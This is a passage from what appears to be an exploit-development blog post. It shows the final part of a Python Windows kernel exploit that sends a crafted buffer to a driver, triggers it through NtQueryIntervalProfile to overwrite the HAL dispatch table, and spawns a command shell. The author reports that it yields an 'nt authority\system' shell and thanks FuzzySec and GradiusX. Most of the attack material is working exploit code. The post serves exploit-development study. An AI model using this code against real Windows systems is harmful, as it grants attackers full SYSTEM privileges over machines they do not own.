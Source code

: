 ```python
        print("[*] Buffer sent to driver successfully.")
    else:
        print("[!] Payload failed. Last error: " + str(GetLastError()))
 
    print("[*] Calling NtQueryIntervalProfile for trigger...")
    ntdll.NtQueryIntervalProfile(0x2408, byref(c_ulong()))
 
    print("[*] Opening system shell...")
    Popen("start cmd", shell=True)
   
 
image_name, kernel_base = base()
target_hal = hal_calc(image_name, kernel_base)
exploit(target_hal)
```

## Conclusion
If we run this exploit code, we get a `nt authority\system` shell for our efforts. Let me know if you have any questions about this one, it took me a whole Saturday to figure out. Thank you FuzzySec and GradiusX. We'll port this to x86-x64 and clean up the code a lot in the next post. Until next time. 

![](/assets/images/AWE/successbaby.PNG)







